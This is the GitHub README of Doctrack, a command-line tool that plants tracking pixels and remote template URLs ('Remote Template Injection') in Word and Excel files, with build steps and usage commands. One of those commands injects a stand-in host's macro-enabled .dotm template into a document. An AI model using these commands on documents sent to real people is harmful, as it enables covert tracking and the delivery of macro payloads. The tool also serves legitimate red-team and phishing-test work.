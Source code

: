 ﻿# Doctrack
Tool to insert tracking pixels into Office Open XML documents.
## Features
* Insert tracking pixels into Office Open XML documents (Word and Excel)
* Inject template URL (aka Remote Template Injection)
* Inspect external target URLs and metadata
## Installation
You will need to download [.Net Core SDK](https://dotnet.microsoft.com/download/) for your platform. Then, to build single binary on Windows:
```cmd
$ git clone https://github.com/wavvs/doctrack.git
$ cd doctrack/
$ dotnet publish -r win-x64 -c Release /p:PublishSingleFile=true
```
On Linux:
```bash
$ dotnet publish -r linux-x64 -c Release /p:PublishSingleFile=true
```
## Usage
```cmd
$ doctrack --help
Tool to insert tracking pixels into Office Open XML documents.
Copyright (C) 2021 doctrack

  -i, --input       Input filename.
  -o, --output      Output filename.
  -m, --metadata    Metadata to supply (json file).
  -u, --url         URL to insert.
  -e, --template    (Default: false) If set, enables template URL injection.
  -s, --inspect     (Default: false) Inspect external targets.
  --help            Display this help screen.
```
Insert tracking pixel and change document metadata:
```cmd
$ doctrack -i test.docx -o test.docx --metadata metadata.json --url http://test.url/image.png
```
Insert remote template URL (aka Remote Template Injection):
```cmd
$ doctrack -i test.docx -o test.docx --url http://test.url/template.dotm --template
```
Inspect external target URLs and metadata:
```cmd
$ doctrack -i test.docx --inspect
[External targets]
Part: /word/document.xml, ID: R8783bc77406d476d, URI: http://test.url/image.png
Part: /word/settings.xml, ID: R33c36bdf400b44f6, URI: http://test.url/template.dotm
[Metadata]
Creator: wavvs
Title: doctrack
Subject:
Category:
Keywords:
Description: Tool to insert tracking pixels into Office Open XML documents.
ContentType:
ContentStatus:
Version:
Revision:
Created: 13.10.2020 23:20:39
Modified: 13.10.2020 23:20:39
LastModifiedBy:
LastPrinted: 13.10.2020 23:20:39
Language:
Identifier:
```